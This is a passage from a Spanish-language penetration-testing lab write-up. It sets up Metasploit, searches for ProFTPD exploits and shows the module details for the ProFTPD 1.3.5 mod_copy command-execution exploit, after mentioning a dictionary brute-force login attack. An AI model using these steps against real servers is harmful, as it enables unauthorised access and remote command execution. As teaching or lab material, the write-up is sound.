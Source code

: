 Con ese comando empezaría un ataque de fuerza bruta hasta conseguir el acceso a un usuario haciendo uso de dos diccionarios, uno para usuarios y otro para contraseñas. El problema es que para este caso puede ser algo lento, cuando tenemos acceso a un `exploit` que nos permite acceder de forma rápida.

1. Inicializamos la base de datos de Metasploit para que almacene las contraseñas que sean encontradas así como otros datos, permitiendo ser reutilizados sin volver a tener que realizar todo el proceso:
    ```bash
    msfdb init
    msfdb start
    ```

2. Iniciamos la consola de `Metasploit` e iniciamos una búsqueda de exploits compatibles.
    ```bash
    msfconsole
    search proftpd
    ```

    ![Busqueda de Exploit](img/ej3-3.png)

3. Como podemos ver en la imagen anterior, nos muestra los diferentes exploits que tenemos disponibles, así como su rango de efectividad. Para este caso, usaremos el número 4 que es el de `mod_copy`. Podemos pedir información del mismo con el comando `info 4` ya que estamos en modo interactivo. Esto nos devolverá la siguiente información:
    ```bash
    Name: ProFTPD 1.3.5 Mod_Copy Command Execution
        Module: exploit/unix/ftp/proftpd_modcopy_exec
    Platform: Unix
        Arch: cmd
    Privileged: No
        License: Metasploit Framework License (BSD)
        Rank: Excellent
    Disclosed: 2015-04-22

    Provided by:
    Vadim Melihow
    xistence <xistence@0x90.nl>

    Module side effects:
    artifacts-on-disk
    ioc-in-logs
